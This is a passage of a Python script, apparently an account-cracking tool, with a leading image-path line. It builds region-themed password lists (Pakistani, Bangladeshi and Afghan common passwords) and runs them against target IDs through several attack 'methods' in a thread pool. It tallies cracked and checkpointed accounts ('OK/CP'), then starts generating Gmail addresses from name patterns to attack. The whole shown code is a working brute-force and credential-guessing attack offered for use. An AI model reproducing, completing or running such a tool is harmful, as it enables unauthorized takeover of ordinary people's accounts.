 					passlist = [psx,ids]
				elif pcs in ['6','06']:
					passlist = [psx,ids,' ',' ','786786','ali786','khan123','khan12','pakistan','ali123',' ']
				elif pcs in ['7','07']:
					passlist = [psx,ids,'Bangladesh','bangladesh','i love you','iloveyou','free fire','freefire']
				elif pcs in ['8','08']:
					passlist = [psx,ids,'afghan','afghan12345','afghan123','600700','afghanistan','afghan1122','500500','100200','10002000','900900','kabul123']
				if mthd in ['1','01']:
					IJAZ.submit(IJAZ1,ids,passlist)
				if mthd in ['2','02']:
					IJAZ.submit(IJAZ2,ids,passlist)
				if mthd in ['3','03']:
					IJAZ.submit(IJAZ3,ids,passlist)
				if mthd in ['4','04']:
					IJAZ.submit(IJAZ4,ids,passlist)
				if mthd in ['5','05']:
					IJAZ.submit(IJAZ5,ids,passlist)
				if mthd in ['6','06']:
					IJAZ.submit(IJAZ6,ids,passlist)
		print('\033[1;37m')
		linex()
		print(' The process has completed')
		print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
		linex()
		input(' Press enter to back ')
		os.system('python IJAZ.py')

def gmail():
		os.system('rm -rf .re.txt')
		clear()
		print('\033[1;37m example: ramzan, ali, sajjad, faizan\033[1;97m')
		linex()
		first = input(' Put first name: ')
		linex()
		print('\033[1;37m example: khan, ahmad, ali \033[1;97m')
		linex()
		last = input(' Put last name: ')
		linex()
		print(' Example: @gmail.com ')
		linex()
		domain = input(' domain: ')
		linex()
		try:
			limit=int(input(' Put limit: '))
		except ValueError:
			limit = 5000
		clear()
		print(' [1] Only name password \n [2] name + digit password \n [3] Capital name password\n [4] Auto all password')
		linex()
		pxc = input(' Choose : ')
		clear()
		print('\033[1;32m [1] \033[1;33mMethod   (best) \033[1;32m \n [2] \033[1;33mMethod   (v-fast)  \033[1;32m \n [3] \033[1;33mMethod   (v-best)  \033[1;32m \n [4] \033[1;33mMethod   (slow) \033[1;32m \n [5] \033[1;33mMethod   (slow)  \033[1;32m \n [6] \033[1;33mMethod   (slow) ')
		linex()
		mthd = input(' Choose: ')
		linex()
		print(' Getting gmails...')
		lists = ['3','4']
		for xd in range(limit):
			lchoice = random.choice(lists)
			if '3' in lchoice:
